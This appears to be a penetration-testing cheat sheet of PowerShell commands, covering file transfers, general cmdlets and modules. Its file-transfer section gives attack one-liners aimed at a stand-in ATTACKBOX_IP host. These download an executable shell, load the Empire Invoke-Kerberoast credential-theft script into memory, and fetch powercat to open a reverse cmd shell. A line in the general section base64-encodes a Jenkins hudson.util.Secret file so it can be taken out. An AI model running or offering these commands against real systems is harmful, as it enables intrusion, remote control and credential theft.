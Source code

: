 ## File transfers
```powershell
(New-Object system.Net.WebClient).Downloadfile('http://ATTACKBOX_IP/shell.exe')

iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')

Invoke-WebRequest -Uri http://$ATTACKBOX_IP -OutFile file.exe

# http.server 8888 in powercat directory
# nc -lvnp 1337
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"

# One line NC web server
# REQUIRES NETCAT on target!
while(1) { cat index.html | nc -w1 -l -p 8080 }

# HARDCORE GUI way:
# Add ip to trusted sites and download
```
[Add to trusted sites with powershell](https://stackoverflow.com/questions/51720030/ie-browser-powershell-script-to-add-site-to-trusted-sites-list-disable-protec) there are always [[Windows-File-Transfers]] and [[Windows-Living-Off-The-Land]]

## General
```powershell
Get-Command              # list of powershell commands, BEWARE OF THE LISTS
Get-Verb				 # list all verbs
Get-Help                 # help for specific cmdlet
Get-Help $Command-Namepowershell -c [convert]::ToBase64String((cat ..\..\secrets\hudson.util.Secret -Encoding byte)) 
Get-Command Verb-* 
Get-Command *-Noun # Commands and Cmdlets are both executables in ps, Command= compiled, can be solo-executed cmdlets
Get-Command | Get-Member -MemberType Method # view members for a the get command
Get-Command -Type Cmdlets | Measure-Object -Sum -ErrorAction SilentlyContinue
Get-Alias		
Set-Alias				 	# Make commands
Set-Alias -Name helpmeplease -Value Get-help
```

## Providers and Modules
```powershell
# A provider is .NET program to access data stores
# Typically included in modules and are accessible after the module has been loaded into the current session
Get-PSProvider

# Modules are packages that contain additional cmdlets, functions, providers, etc that an be imported into the current session
Get-Module 
Get-Module -ListAvailable
Get-Command -Module Defender	# Return all functions of a module
```
